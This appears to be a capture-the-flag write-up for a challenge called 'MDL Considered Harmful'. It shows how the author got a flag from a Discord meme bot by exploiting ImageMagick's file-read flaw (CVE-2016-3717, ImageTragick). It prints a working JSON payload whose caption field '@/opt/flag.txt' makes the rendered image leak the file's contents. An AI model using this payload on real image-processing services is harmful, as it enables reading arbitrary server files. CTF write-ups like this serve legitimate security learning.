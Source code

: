 ```yaml
---
description: ImageMagick CVE-2016-3717
---
```


# MDL Considered Harmful

## Problem

There's a bot named MDLChef in the Discord. You need to DM it, it doesn't respond in the server. On its host machine, there's a file at /opt/flag.txt - it contains the flag. Go get it.

Note: This is NOT an OSINT challenge. The source code really isn't available. Good luck.

Author: nb

## Solution

If we use the `/credits` command, we can understand more of the stack.

![](../../.gitbook/assets/2481101b92dd4319be67bd3652b2ace6.png)

We can see that ImageMagick is used.

I searched for ImageMagick exploits, and found [https://imagetragick.com/](https://imagetragick.com/).

It appears that if we use `caption:@/path/to/file`, we can read arbitrary files.

```text
{
    version: "MDL/1.1",
    type: "meme",
    base: {
        format: "Meme.Legacy.BadLuckBrian"
    },
    caption: {
        topText: "@/opt/flag.txt",
        bottomText: "image tragick"
    }
}
```

The rendered image contains the flag:

![](../../.gitbook/assets/4b20d9ff12db491395a7cfd10c7f91be.png)


